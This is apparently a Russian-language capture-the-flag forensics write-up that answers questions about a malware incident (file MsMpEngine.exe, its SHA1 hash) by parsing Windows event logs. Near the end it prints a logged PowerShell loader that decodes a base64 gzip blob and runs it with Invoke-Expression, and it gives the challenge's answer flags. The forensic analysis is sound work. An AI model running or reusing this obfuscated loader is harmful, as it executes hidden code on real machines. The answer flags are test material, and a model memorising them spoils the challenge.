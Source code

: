 ## Ответ: caplag{25:06:2025_06:40:49}

## Q2) Как называется вредоносный файл? (filename.ext)

## Ответ: caplag{MsMpEngine.exe}

## Q3) SHA1 хеш сумма малвари?

```
┌──(root㉿scrock)-[~/mnt/chall1/task]
└─# sha1sum MsMpEngine.exe  
8ccc992780eade907e5270b3f6a87041fb3ccbfc  MsMpEngine.exe
```

## Ответ: caplag{8ccc992780eade907e5270b3f6a87041fb3ccbfc}

## Q4) в какой папке хранилcя малварь (полный путь)?

### Установим инструмент Эрика Циммермана EvtxECmd и распарсим evtx журналы:

Я решил сразу распарсить все журналы, так сказать на будущее:

```
PS C:\Users\scrock_\Desktop\softs\EvtxECmd\EvtxeCmd> Get-ChildItem "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\Logs\*.evtx" | ForEach-Object {
>>     $outputName = $_.BaseName + ".json"
>>     .\EvtxECmd.exe -f $_.FullName --json "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\evtx_results"
>>     $tempFile = Get-ChildItem "C:\Users\scrock_\Desktop\a\iso\ctf\EHAX++\chall1\task\evtx_results\*.json" -File | Sort-Object LastWriteTime | Select-Object -Last 1
>>     Rename-Item -Path $tempFile.FullName -NewName $outputName
>> }
```

### Для начала нужно проверить журнал Microsoft-Windows-PowerShell%4Operational.evtx (попробуем понять как вообще малварь сюда попала):

```
┌──(root㉿scrock)-[~/mnt/chall1/task/evtx_results]
└─# cat Microsoft-Windows-PowerShell%4Operational.json 
```

Тут мы находим следующую команду:

```
{"PayloadData1":"Path: ","PayloadData2":"ScriptBlockText: 
$compressed = 'H4sIAAAAAAAA/5TOzU6DQBAH8FcZNz1AIgv0oC3Ek6WRpB9YanrphbJTO2a7S5ZRJMZ3N3jQxPTiZQ7z8fvPSJGDOxAjNG/JU5ltis16ni+yvTxT7WxrjyxSoCN4V94WWw6Kik8wXPk+fMAKuyBnPMN33fYNwowc1mxdD7+78JnC6NXpIenE3CRhGE/HMr6ZyPg2lvF4mkyiKBIpeIO4PrxgzbBCljs83GtCw76c2c5oW6k5afTEwIXLdtlk5pkMSnxHcQ1iSNv/afv/ZcvHBTHK3DA620il9Q99YeSnUHLlOCicrbFtLz8BwY6Msl3JvUZ4IKXQfAUAAP//NycKn30BAAA='; 
$bytes = [System.Convert]::FromBase64String($compressed); $stream = New-Object IO.MemoryStream(, $bytes); $decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); 
$reader = New-Object IO.StreamReader($decompressed); $obfuscated = $reader.ReadToEnd(); Invoke-Expression $obfuscated","MapDescription":"Contains contents of scripts run","ChunkNumber":0,"Computer":"DESKTOP-JDMCC6F"
```
